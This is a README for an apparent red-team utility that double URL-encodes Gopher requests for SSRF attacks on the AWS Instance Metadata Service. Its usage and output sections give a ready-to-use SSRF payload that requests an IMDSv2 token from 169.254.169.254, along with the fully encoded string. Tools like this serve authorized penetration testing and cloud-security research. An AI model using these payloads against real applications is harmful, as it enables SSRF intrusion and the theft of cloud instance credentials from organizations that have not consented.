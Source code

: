 # Gopher Encoder
Encode raw Gopher requests into AWS IMDSv2-safe URL format for use in SSRF exploitation and red team scenarios.

Part of the [aws-red-team-tools](https://github.com/CyberWolfByte/aws-red-team-tools) collection, this utility helps automate the encoding of Gopher-style HTTP requests used to access the AWS Instance Metadata Service (IMDSv2) via vulnerable web applications or proxies.

## Features
- Double URL-encoding of the HTTP payload
- Correct encoding of Gopher scheme and request path
- CRLF (`\r\n`) line endings are double-encoded as `%250D%250A`
- Automatically handles any number of HTTP headers
- Supports malformed headers (missing colon) with fallback line encoding
- Output can be saved to a file


## Input Options
- `--file` or `-f`: Load raw Gopher request from a file
- `--stdin` or `-s`: Paste raw Gopher request directly into the terminal
- `raw`: Provide a multi-line Gopher request as a string argument


## Prerequisites
- **Python**: 3.6+

## Usage
Clone the repo:
```bash
git clone https://github.com/CyberWolfByte/aws-red-team-tools.git
cd aws-red-team-tools/gopher-encoder
```

Encode from file:
```bash
python3 gopher_encoder.py --file gopher_request.txt
```

Encode from terminal:
```bash
python3 gopher_encoder.py --stdin
# Paste your request, then press Ctrl+D (Linux/macOS) or Ctrl+Z, then Enter (Windows)
```

Encode directly from a string:
```bash
python3 gopher_encoder.py "gopher://169.254.169.254:80/_PUT /latest/api/token HTTP/1.1\nHost: 169.254.169.254\nX-aws-ec2-metadata-token-ttl-seconds: 21600"
```

Save encoded output to file:
```bash
python3 gopher_encoder.py -f gopher_request.txt -o encoded_output.txt

python3 gopher_encoder.py --stdin -o encoded_output.txt

python3 gopher_encoder.py "gopher://..." --output encoded_output.txt
```

## How It Works
- Input must start with gopher:// — this is enforced
- The first line must contain the `/_` prefix to indicate a raw HTTP payload
- All HTTP data after `/_` is double URL-encoded
- All line endings (`\r\n`) are double-encoded to `%250D%250A`
- Headers are encoded as `Key%3A%2520Value%250D%250A`

## Output Examples
```
python3 gopher_encoder.py --stdin -o encoded_output.txt
Paste the raw Gopher request (end with Ctrl+D):
gopher://169.254.169.254:80/_PUT /latest/api/token HTTP/1.1
Host: 169.254.169.254
X-aws-ec2-metadata-token-ttl-seconds: 21600
[+] Encoded Gopher request written to: encoded_output.txt

cat encoded_output.txt
gopher%3A%2F%2F169.254.169.254%3A80%2F_PUT%2520%252Flatest%252Fapi%252Ftoken%2520HTTP%252F1.1%250D%250AHost%3A%2520169.254.169.254%250D%250AX-aws-ec2-metadata-token-ttl-seconds%3A%252021600%250D%250A
```
```
python3 gopher_encoder.py -s                                         
Paste the raw Gopher request (end with Ctrl+D):
gopher://169.254.169.254:80/_PUT /latest/api/token HTTP/1.1
Host: 169.254.169.254
X-aws-ec2-metadata-token-ttl-seconds: 21600
gopher%3A%2F%2F169.254.169.254%3A80%2F_PUT%2520%252Flatest%252Fapi%252Ftoken%2520HTTP%252F1.1%250D%250AHost%3A%2520169.254.169.254%250D%250AX-aws-ec2-metadata-token-ttl-seconds%3A%252021600%250D%250A

```
## Contributing
If you have an idea for improvement or wish to collaborate, feel free to contribute.
